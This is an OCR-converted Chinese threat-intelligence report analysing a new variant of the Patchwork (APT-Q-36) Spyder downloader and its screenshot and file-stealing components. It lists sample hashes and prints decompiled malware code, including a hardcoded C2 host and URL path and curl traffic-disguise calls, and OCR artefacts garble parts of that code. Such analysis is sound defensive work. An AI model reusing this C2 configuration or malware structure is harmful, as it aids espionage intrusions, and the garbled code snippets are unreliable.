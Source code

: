 # 摩诃草（APT-Q-36）Spyder下载器新变种及后续组件分析  

原创威胁情报中心奇安信威胁情报中心2024年08月13日17:43北京  

## ·团伙背景  

摩诃草，又名 Patchwork、白象、Hangover、Dropping Elephant 等，奇安信内部跟踪编号APT-Q-36。该组织被普遍认为具有南亚地区背景，其最早攻击活动可追溯到2009年11月，已持续活跃10余年。该组织主要针对亚洲地区的国家进行网络间谍活动，攻击目标包括政府、军事、电力、工业、科研教育、外交和经济等领域的组织机构。  

## 事件概述  

奇安信威胁情报中心此前发布过关于摩诃草组织Spyder 下载器的分析报告[1,2]，近期我们发现Spyder 下载器出现新变种，并观察到攻击者借助Spyder下发两款窃密组件，分别用于截屏和收集文件信息。  

虽然Spyder下载器的核心功能没变，仍是从远程下载的加密ZIP包中释放出后续组件并执行，但在代码结构和 C2 通信格式等方面做了一些改动。以下是本次发现的 Spyder 下载器和窃密组件的攻击过程。  

![](https://cdn-mineru.openxlab.org.cn/extract/75eef432-8dd2-4be9-b9e5-abcf2e14a2ea/2a2117ce37808dcc677eb2589b2a4805af3a1c4d9af90b6869a715c53e6cea25.jpg)  

## 详细分析  

相关样本信息如下：  


<html><body><table><tr><td>MD5</td><td>编译时间</td><td>文件名</td><td>说明</td></tr><tr><td>689c91f532482aeff84c029be61f6 81a</td><td>2024-06-041 5:12:47 UTC</td><td>eac launcher.exe</td><td>Spyder下载器</td></tr><tr><td>7a177ef0b1ce6f03fa424becfb9d3 7ac</td><td>2024-05-21 0 8:28:54 UTC</td><td>IntelPieService.ex</td><td>截屏组件</td></tr><tr><td>85d0f615923af8196fa7d08ef1c68 b64</td><td>2024-02-131 0:46:07 UTC</td><td>RstMwService.ex</td><td>文件解密组件</td></tr></table></body></html>  

### Spyder 下载器  

样本689c91f532482aeff84c029be61f681a以Word文档图标作为伪装，程序带有数字签名。签名者名称为"Xi'an Qinxuntao Network Technology Co.，Ltd."，签名时间为 2024 年 6月 4 日15:21:35 UTC。  

![](https://cdn-mineru.openxlab.org.cn/extract/75eef432-8dd2-4be9-b9e5-abcf2e14a2ea/2eb6fba09d7f128a92d9df19cc409cd5394374102c32cbac823f99d79d8ab756.jpg)  

新型Spyder下载器中的配置数据直接存放在代码中，不像之前的版本将其加密后保存在资源区。  

9_struct_4c3670 $=$ (struct_Config \*)v15;   
if (v15) lstrcpyA(&g_struct_4c3670->str_version,"0.0.0.1"); g_struct_4C3670->https_flag $=\overline{{\Theta}}$ lstrcpyw(&g_struct_4c3670->wstr_host, L"onlinecsstutorials.com"); lstrcpyw(&g_struct_4c3670->wstr_url_dir, L"/soup/"); lstrcpyw(&g_struct_4c3670->wstr_url_path,L"pencil.php"); lstrcpyw(&g_struct_4C3670->Wstr_mutex,L"HTyRkx9JKZV4Zghqpq5kwur22HR7GU9Z"); g_struct_4c3670->sleep_time $\l=$ 4000; LstrcpyA(&g_struct_4c3670->wstr_profile,"Fighter"); lpBuffer[1] $=$ (LPCVoID)lstrlenA(&g_struct_4C3670->str_version); g_version_encode $=$ Base64Encode((unsigned int)lpBuffer[1], &lpBuffer[1], (int)&g_struct_4C3670->str_version);  

使用 curl 产生对 retail.googleapis.com 和 api.github.com 的网络通信，进行流量伪装。f（V18）  

sub_409560((int)v18,10002,"https://retail.googleapis.com/\$discovery/rest?version=v2");   
sub_409560((int)v20, 43,1);   
sub_409560(（int)v20, 10005, "user:pass");   
sub_409560((int)v20, 10018, "curl/7.42.0");   
sub_409560(（int)v20, 68, 50);   
sub_409560((int)v20, 213,1);   
sub_4065F0((int)v20,2097154,(int)&hMem[1]);   
sub_4065F0(（int)v20,3145731,（int)&v190);   
sub_4065F0((int)v20,1048577,(int)&v184+4);  
